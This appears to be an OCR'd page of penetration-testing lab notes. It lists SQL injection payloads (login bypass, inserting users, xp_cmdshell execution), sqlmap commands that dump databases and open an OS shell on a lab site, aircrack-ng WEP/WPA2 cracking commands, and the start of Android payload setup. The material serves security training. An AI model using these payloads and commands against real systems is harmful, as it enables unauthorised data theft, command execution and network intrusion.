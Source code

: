 </form>

- Get victim to run it



                                                                          *SQL INJECTION*


**Manual Injection** 

- ***‘ or 1=1 --*** | for login bypass
- ***‘insert into login values ('john','apple123'); --*** | create own user in the database
- ***‘create database mydatabase; --*** | create database with name of mydatabase
- ***‘exec master..xp\_cmdshell 'ping www.moviescope.com -l 65000 -t'; --*** | execute ping on moviescope


**N-Stalker Free X - Web Application Security Scanner**

- Open tool, Enter URL **http://www.goodshopping.com** and select **OWASP Policy,** Click **Start Scan Wizard.**
- Leave Settings as default and start session.
- Start scan. Wait for scan to complete to view results.


**SQLMAP**

- Login into website, Get user session cookie via document.cookie is console.
- ***sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> --dbs***
- ***sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D <database name> --tables***
- ***sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D <database name> -T <table name> --columns***
- ***sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D <database name> -T <table name> --dump***
- ***sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> --os-shell***



                                                              *HACKING WIRELESS NETWORKS*


**WEP Cracking – AIRCRACK-NG**

***aircrack-ng '/root/Desktop/Sample Captures/WEPcrack-01.cap'*** | ‘’ are not needed if there is no space in folder name

**WPA2 Cracking – AIRCRACK-NG**

***aircrack-ng -a 2 -b 20:E5:2A:E4:38:00 -w /root/Desktop/Wordlists/Passwords.txt '/root/Desktop/Sample Captures/WPA2crack-01.cap'*** | -a 2 mode WPA2, -b bssid, -w worlist

                                                              
                                                              
                                                                *HACKING MOBILE PLATFORMS*


**Generating and Executing Payloads for Android Setup Android**

- Open terminal, run ***su***
- Run ***ip addr add 10.10.10.69/24 dev eth0***
